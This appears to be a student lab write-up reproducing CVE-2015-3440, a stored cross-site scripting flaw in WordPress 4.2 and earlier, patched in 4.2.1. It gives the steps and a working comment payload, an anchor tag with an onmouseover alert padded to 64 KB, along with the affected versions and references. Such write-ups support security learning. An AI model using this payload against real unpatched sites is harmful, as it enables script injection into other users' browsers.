 # Steps
#### Step 1 - Gain trust from the admin
######	If you have the ability to post skip to step 3
######	Create a comment on a post.

#### Step 2 - Wait
###### Wait for approval from the admin.

#### Step 3 - Inject XSS
######	Comment the payload.
	<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
 



# The types / classes of vulnerabilities involved and any related CVE identifiers
#### Unauthenticated Stored Cross-Site Scripting (XSS)

#### CVE-2015-3440 



# Affected versions and patches
#### Affected version
###### WordPress <= 4.2 

#### Patched in
###### version 4.2.1



# Demo
![alt text](https://github.com/Mikhail-Kreytser/Cybersecurity-Week7/blob/master/XSS%201/Demo.gif "XSS Demo")

# References
#### https://klikki.fi/adv/wordpress2.html
#### https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3440

